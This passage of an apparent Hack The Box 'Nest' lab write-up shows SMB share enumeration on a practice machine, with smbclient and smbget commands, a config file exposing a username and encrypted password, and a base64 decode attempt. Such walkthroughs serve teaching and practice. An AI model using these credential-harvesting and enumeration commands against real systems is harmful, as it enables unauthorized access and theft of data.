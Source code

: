 So we could maybe see if we have access to these folders. And maybe use the format of \IT\<FirstName> to get other files.


I also find some possible creds in Configs/RU Scanner/RU_config:

```
root@kali:/mnt/smb/IT# cat Configs/RU\ Scanner/RU_config.xml 
<?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>389</Port>
  <Username>c.smith</Username>
  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
</ConfigFile>
root@kali:/mnt/smb/IT# echo "fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=" | base64 -d ; echo;
}13��=X�J�BA�X*�Wc�f���?βc
root@kali:/mnt/smb/IT# 

```

```
root@kali:/mnt/smb/IT# smbclient //10.129.114.52/Secure$ -U "TempUser"
Enter WORKGROUP\TempUser's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Aug  7 19:08:12 2019
  ..                                  D        0  Wed Aug  7 19:08:12 2019
  Finance                             D        0  Wed Aug  7 15:40:13 2019
  HR                                  D        0  Wed Aug  7 19:08:11 2019
  IT                                  D        0  Thu Aug  8 06:59:25 2019

                10485247 blocks of size 4096. 6542864 blocks available
smb: \> cd IT
smb: \IT\> cd CArl
smb: \IT\CArl\> dir
  .                                   D        0  Wed Aug  7 15:42:14 2019
  ..                                  D        0  Wed Aug  7 15:42:14 2019
  Docs                                D        0  Wed Aug  7 15:44:00 2019
  Reports                             D        0  Tue Aug  6 09:45:40 2019
  VB Projects                         D        0  Tue Aug  6 10:41:55 2019

                10485247 blocks of size 4096. 6542864 blocks available
smb: \IT\CArl\> 
```

In here, I find a Visual Basic file. I suspect we have to use the base64 encoded password with the project somehow. Maybe it is running on the open port.

```
root@kali:/home/kali/htb/Nest# smbget -R smb://10.129.114.52/Secure$/IT/Carl -U TempUser
Password for [TempUser] connecting to //Secure$/10.129.114.52: 
Using workgroup WORKGROUP, user TempUser
smb://10.129.114.52/Secure$/IT/Carl/Docs/ip.txt                                                                                                             
smb://10.129.114.52/Secure$/IT/Carl/Docs/mmc.txt                                                                                                            
smb://10.129.114.52/Secure$/IT/Carl/VB Projects/WIP/RU/RUScanner/ConfigFile.vb                                                                              
smb://10.129.114.52/Secure$/IT/Carl/VB Projects/WIP/RU/RUScanner/Module1.vb                                                                                 
smb://10.129.114.52/Secure$/IT/Carl/VB Projects/WIP/RU/RUScanner/My Project/Application.Designer.vb                                                         
smb://10.129.114.52/Secure$/IT/Carl/VB Projects/WIP/RU/RUScanner/My Project/Application.myapp                                                               
smb://10.129.114.52/Secure$/IT/Carl/VB Projects/WIP/RU/RUScanner/My Project/AssemblyInfo.vb                                                                 
```